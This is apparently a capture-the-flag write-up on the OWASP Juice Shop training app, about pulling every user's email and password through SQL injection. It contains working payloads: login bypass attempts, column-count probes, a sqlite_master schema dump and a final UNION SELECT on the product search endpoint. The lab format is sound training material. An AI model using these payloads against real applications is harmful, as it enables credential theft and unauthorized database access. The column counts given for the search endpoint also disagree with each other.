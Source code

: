 ```yaml
---
title: "Juice Shop: SQL Injection — Extract All User Credentials"
tags: [OWASP, JuiceShop, SQLInjection, WebSecurity, BugBounty, CTF, Cybersecurity]
date: 2025-07-10
---
```


# OWASP Juice Shop: SQL Injection — Extract All User Credentials

## 🧠 Lab Overview

**Challenge**: Retrieve a list of all user credentials via SQL injection.

What made this lab tricky was the misleading assumption that the login form would be the injection point. While it did confirm SQL injection was possible, it **never returned** the user credential list. The actual solution involved switching to the product **search** endpoint — a valuable lesson in backend vs. frontend behavior.

---

## 🔍 Initial Exploration: Login Form

I began by testing SQL injection against the login form:

```json
{"email":"' admin","password":"admin"}
```

Response:

- `SQLITE_ERROR: near "admin": syntax error`
- Revealed backend query format
- Confirmed use of **SQLite**

Tried classic bypass payloads:

```json
{"email":"admin' --","password":"admin"}
{"email":"' OR email = 'admin'-- ","password":"admin"}
```

None yielded access — all returned `Invalid email or password`.

---

## 🧱 UNION SELECT in Login (False Lead)

From here, I tested `UNION SELECT` payloads to identify column count:

```json
{"email": "admin' UNION SELECT NULL,NULL,... (13 columns) -- ", "password": "admin"}
```

✅ This payload did not throw SQL errors. ❌ However, it only returned a `401 Unauthorized` response with a JWT `tmpToken`:

```json
"type": "password_valid_needs_second_factor_token"
```

**Conclusion**: The SQL injection worked — but the frontend was a brick wall. It issued a JWT token, but didn’t render any of the actual data I wanted. In hindsight, Juice Shop gave a crucial hint: the lab objective _“cannot be achieved through the application frontend.”_ I didn’t fully appreciate that until I ran into it firsthand.

That meant I needed to work around the frontend entirely — and find an endpoint that exposed raw backend data. If I could dump the schema, I’d know exactly how to query the user credentials I was after.

---

## 🔁 Key Pivot: Product Search Endpoint

I took a closer look at the `/rest/products/search?q=` endpoint.  I focused through the product search for "apple".  

### Testing Queries:

- `q=apple` → 2 normal results
- `q=apple'` → SQL error
- `q=apple'))--` → ✅ No error (syntax closed)

From there, I escalated:

```http
q=apple')) UNION SELECT 'A','B','C',... (13 strings) --
```

Response: Product card displayed one of the injected values — confirmed output was rendered.  I think I found the vulnerable endpoint.

---

## 🔍 What Went Wrong Initially?

| Symptom                                | Root Cause                                |
| -------------------------------------- | ----------------------------------------- |
| UNION SELECT worked but gave no data   | Frontend ignored backend response         |
| Saw tokens but not email/passwords     | Login API issued 2FA token, not user info |
| 304 Not Modified responses from search | AJAX frontend caching                     |

**Lesson**: The login query executed the SQLi but was never meant to render the result.

---

## 🧠 Schema Enumeration via Injection

Before constructing the final payload, I extracted the full database schema using a targeted injection into the product search endpoint:

```sql
UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master--
```

Encoded version:

```url
UNION%20SELECT%20sql%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%20FROM%20sqlite_master--
```

This returned the raw SQL used to create various tables — including the `Users` table:

```sql
CREATE TABLE `Users` (
  `id` INTEGER PRIMARY KEY AUTOINCREMENT,
  `username` VARCHAR(255),
  `email` VARCHAR(255) UNIQUE,
  `password` VARCHAR(255),
  `role` VARCHAR(255),
  `deluxeToken` VARCHAR(255),
  `lastLoginIp` VARCHAR(255),
  `profileImage` VARCHAR(255),
  `totpSecret` VARCHAR(255),
  `isActive` TINYINT(1),
  `createdAt` DATETIME,
  `updatedAt` DATETIME,
  `deletedAt` DATETIME
)
```

This confirmed:

- The table had 13 columns
- The first few fields (`email`, `password`) were suitable for display
- I needed to craft a 9-column UNION SELECT to match the `Products` table structure in the search endpoint

### ✅ Final Payload

Using that schema knowledge, I constructed the refined payload:

```sql
UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--
```

Encoded version:

```url
UNION%20SELECT%20email%2Cpassword%2C3%2C4%2C5%2C6%2C7%2C8%2C9%20FROM%20Users--
```

🟢 This worked — the list of **user credentials** (email + password) was successfully rendered in the product search results.

**Why this worked:**

- The `Products` table uses a 9-column layout.
- Matching that structure in the `UNION SELECT` made the query syntactically valid.
- Using `email` and `password` as the first two columns ensured they appeared in the product cards.

Confirmed and rendered in product search page.

---

## ✅ Takeaways

- **Frontend limitations matter**: Just because a payload runs doesn’t mean results are shown.
- **Favor reflected endpoints**: Search features often echo results — perfect for testing UNION-based SQLi.
- **Dump schema early**: Knowing the table structure accelerates payload building.
- **Validate assumptions**: The login form can mislead you into thinking the injection failed.

---

\#JuiceShop #SQLInjection #OWASP #CTF #Cybersecurity #BugBounty #Infosec

```
